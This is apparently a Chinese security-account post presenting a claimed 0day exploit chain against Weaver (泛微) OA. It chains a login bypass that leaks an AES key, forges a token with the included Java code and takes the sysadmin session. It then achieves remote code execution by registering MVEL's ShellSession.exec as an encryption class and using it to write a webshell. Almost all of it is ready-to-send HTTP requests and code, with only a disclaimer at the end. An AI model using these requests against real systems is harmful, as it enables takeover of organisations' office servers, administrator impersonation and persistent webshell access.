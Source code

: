 #  泛微OA前台登录绕过+后台RCE【0day】  
 LHACK安全   2025-07-02 02:01  
  
![图片](https://mmbiz.qpic.cn/sz_mmbiz_jpg/lSQtsngIibibSOeF8DNKNAC3a6kgvhmWqvoQdibCCk028HCpd5q1pEeFjIhicyia0IcY7f2G9fpqaUm6ATDQuZZ05yw/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
点击上方  
蓝字  
关注我们 并设为  
星标  
## 0x01 登录绕过  
### 利用/dwr/call接口读取加密key  
  
```
POST /dwr/call/plaincall/?callCount=1&c0-id=1&c0-scriptName=WorkflowSubwfSetUtil&c0-methodName=LoadTemplateProp&batchId=a&c0-param0=string:mobilemode&scriptSessionId=1&a=.swf HTTP/1.1Host: xxx:xxxxUser-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7Accept-Encoding: gzip, deflateAccept-Language: zh-CN,zh;q=0.9Upgrade-Insecure-Requests: 1
```  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/uicic8KPZnD5ceGLwibV7eibnrbLN1s9VOtTUMFUFw5wm7jEQPWogeciaf1KLHCTIGRUiaAeyDOQmIhQIrqMQ5JjyZ0A/640?wx_fmt=other&from=appmsg "")  
  
其中security.key为 5f2f28dd-db4a-45  
### 调用aes加密函数  
  
```
import java.security.SecureRandom;import javax.crypto.Cipher;import javax.crypto.KeyGenerator;import javax.crypto.spec.SecretKeySpec;import javax.xml.bind.DatatypeConverter;publicclass Main {    public static String encrypt(String str, String str2) {        try {            KeyGenerator keyGenerator = KeyGenerator.getInstance("AES");            SecureRandom secureRandom = SecureRandom.getInstance("SHA1PRNG");            secureRandom.setSeed(str2.getBytes());            keyGenerator.init(128, secureRandom);            SecretKeySpec secretKeySpec = new SecretKeySpec(keyGenerator.generateKey().getEncoded(), "AES");            Cipher cipher = Cipher.getInstance("AES");            cipher.init(1, secretKeySpec);            return DatatypeConverter.printHexBinary(cipher.doFinal(str.getBytes()));        } catch (Exception e) {            e.printStackTrace();            return"";        }    }    public static void main(String[] args) {        System.out.println(encrypt("1;1;"+System.currentTimeMillis(),"5f2f28dd-db4a-45"));    }}
```  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/uicic8KPZnD5ceGLwibV7eibnrbLN1s9VOtTmMywj3iayQJ2T19WpBv1vMxXicuLMSnB8INMG1iaK11gEdxovtcCorDicw/640?wx_fmt=other&from=appmsg "")  
  
获取到密钥，即为下面需要用到的mToken  
  
### 获取sessionKey  
  
```
GET /mobilemode/mobile/server.jsp?invoker=com.api.mobilemode.web.mobile.service.MobileEntranceAction&action=meta&appid=1&appHomepageId=1&mTokenFrom=QRCode&mToken=BAAD7750912407C15FBC7CA2BDA4BDDDAEACE215E26BB871CE8D171028A66A70&_ec_ismobile=true&timeZoneOffset=&a=.swf HTTP/1.1Host: xxxx:xxxxUser-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7Accept-Encoding: gzip, deflateAccept-Language: zh-CN,zh;q=0.9Upgrade-Insecure-Requests: 1
```  
  
###   
  
获取到sysadmin 的sessionKey  
### 登录后台  
  
将sessionKey转换为ecology_JSessionid即可登录后台  
  
```
GET /weaver/ImgFileDownload/a.swf?sessionkey=b20e3665-d8a8-403d-a041-0c5883626da4&a=.swf HTTP/1.1Host: xxxx:xxxxUser-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7Accept-Encoding: gzip, deflateAccept-Language: zh-CN,zh;q=0.9Upgrade-Insecure-Requests: 1
```  
  
###   
###   
## 0x02 后台RCE  
### 添加方法  
  
```
POST /interface/outter/outter_encryptclassOperation.jsp?a=1.swf HTTP/1.1Host: xxxx:xxxIf-None-Match: "6evu6PUo/Cz"User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7Accept-Encoding: gzip, deflateIf-Modified-Since: Thu, 23 Jun 2022 11:04:04 GMTContent-Type: multipart/form-data; boundary=----WebKitFormBoundaryVnIIuCache-Control: max-age=0Upgrade-Insecure-Requests: 1Accept-Language: zh-CN,zh;q=0.9Cookie: ecology_JSessionid=aaa_db33mBm_EaOGEO8bz; __randcode__=b7e3d245-5b6b-44ba-b06b-f4b5592d68dc------WebKitFormBoundaryVnIIugCdViAmEyK3Content-Disposition: form-data; name="operation"add------WebKitFormBoundaryVnIIugCdViAmEyK3Content-Disposition: form-data; name="encryptname"ttttaaa------WebKitFormBoundaryVnIIugCdViAmEyK3Content-Disposition: form-data; name="encryptclass"org.mvel2.sh.ShellSession------WebKitFormBoundaryVnIIugCdViAmEyK3Content-Disposition: form-data; name="encryptmethod"exec------WebKitFormBoundaryVnIIugCdViAmEyK3Content-Disposition: form-data; name="decryptmethod"exec------WebKitFormBoundaryVnIIugCdViAmEyK3Content-Disposition: form-data; name="isdialog"0------WebKitFormBoundaryVnIIugCdViAmEyK3Content-Disposition: form-data; name="x"; filename="x"x------WebKitFormBoundaryVnIIugCdViAmEyK3--
```  
  
###   
### 查看添加的ID  
  
```
POST /api/integration/Outter/getOutterSysEncryptClassOperates?a=1.swf HTTP/1.1Host: xxxx:xxxIf-None-Match: "6evu6PUo/Cz"User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7Accept-Encoding: gzip, deflateIf-Modified-Since: Thu, 23 Jun 2022 11:04:04 GMTContent-Type: application/x-www-form-urlencodedCache-Control: max-age=0Upgrade-Insecure-Requests: 1Accept-Language: zh-CN,zh;q=0.9Cookie: ecology_JSessionid=aaa_db33mBm_EaOGEO8bz; __randcode__=b7e3d245-5b6b-44ba-b06b-f4b5592d68dc
```  
  
###   
  
此处ID为2  
### 直接执行java代码写shell  
  
```
POST /interface/outter/outter_encryptclassOperation.jsp?a=1.swf HTTP/1.1Host: xxxx:xxxIf-None-Match: "6evu6PUo/Cz"User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7Accept-Encoding: gzip, deflateIf-Modified-Since: Thu, 23 Jun 2022 11:04:04 GMTContent-Type: multipart/form-data; boundary=----WebKitFormBoundaryITdrxCache-Control: max-age=0Upgrade-Insecure-Requests: 1Accept-Language: zh-CN,zh;q=0.9Cookie: ecology_JSessionid=aaa_db33mBm_EaOGEO8bz; __randcode__=b7e3d245-5b6b-44ba-b06b-f4b5592d68dc------WebKitFormBoundaryITdrxxca8L1Xo7RqContent-Disposition: form-data; name="operation"test------WebKitFormBoundaryITdrxxca8L1Xo7RqContent-Disposition: form-data; name="plaintext"马子------WebKitFormBoundaryITdrxxca8L1Xo7RqContent-Disposition: form-data; name="id"2------WebKitFormBoundaryITdrxxca8L1Xo7RqContent-Disposition: form-data; name="x"; filename="x"1------WebKitFormBoundaryITdrxxca8L1Xo7Rq--
```  
  
###   
  
写入进 /getaddr.jsp  
## 0x03 关注公众号  
  
**标签:代码审计，0day，渗透测试，系统，通用，0day，闲鱼，交易所**  
  
**关注公众号，持续更新最新漏洞文章!**  
  
  
****  
**免责声明:文章中涉及的程序(方法)可能带有攻击性，仅供安全研究与教学之用，读者将其信息做其他用途，由读者承担全部法律及连带责任，文章作者和本公众号不承担任何法律及连带责任，望周知！！!**  
  
